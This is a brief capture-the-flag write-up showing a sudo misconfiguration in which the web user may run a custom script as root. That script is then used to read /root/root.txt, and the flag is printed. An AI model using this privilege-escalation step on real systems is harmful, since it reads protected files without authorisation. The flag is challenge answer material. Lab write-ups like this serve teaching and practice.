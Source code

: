 www-data can run `/usr/local/bin/brew` as root. This is not homebrew btw, it's a custom shell script.
```bash
www-data@ctf-caffeine-user-66e62b1674b63938-9fbc8859c-wxz4f:/var/www/coffee$ sudo -l
Matching Defaults entries for www-data on ctf-caffeine-user-66e62b1674b63938-9fbc8859c-wxz4f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ctf-caffeine-user-66e62b1674b63938-9fbc8859c-wxz4f:
    (ALL) NOPASSWD: /usr/local/bin/brew
```
Basically you can `cat` any file as root.
```bash
www-data@ctf-caffeine-user-66e62b1674b63938-9fbc8859c-wxz4f:/var/www/coffee$ sudo brew /root/root.txt
```
Flag: `brunner{5uD0_pR1V1L3g35_T00_h0t_F0r_J4v4_J4CK!}`

Solved by: benkyou